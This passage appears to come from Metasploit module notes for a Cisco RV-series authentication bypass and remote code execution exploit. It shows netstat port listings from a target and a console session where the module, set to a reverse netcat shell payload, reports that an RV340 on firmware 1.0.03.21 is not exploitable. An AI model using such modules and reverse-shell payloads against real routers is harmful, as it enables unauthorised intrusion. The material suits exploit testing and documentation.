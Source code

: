 ```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:12321         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8866          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8008          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2601            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2602            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9003          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2603            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:54316         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      30855/nginx: worker
tcp        0      0 127.0.0.1:2001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9010          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:4565          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:2103          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:47864         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      30855/nginx: worker
tcp        0      0 0.0.0.0:830             0.0.0.0:*               LISTEN      -
tcp        0      0 :::2601                 :::*                    LISTEN      -
tcp        0      0 :::2602                 :::*                    LISTEN      -
tcp        0      0 :::2603                 :::*                    LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      30855/nginx: worker
tcp        0      0 :::53                   :::*                    LISTEN      -
tcp        0      0 :::22                   :::*                    LISTEN      -
tcp        0      0 :::443                  :::*                    LISTEN      30855/nginx: worker
tcp        0      0 :::830                  :::*                    LISTEN      -
```

### Cisco RV340 using firmware version 1.0.03.21. Failure to exploit.

```
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set RHOST 10.0.0.8
RHOST => 10.0.0.8
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > check

[*] 10.0.0.8:443 - The target is not exploitable. The target did not respond with a 200 OK.
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > 
```
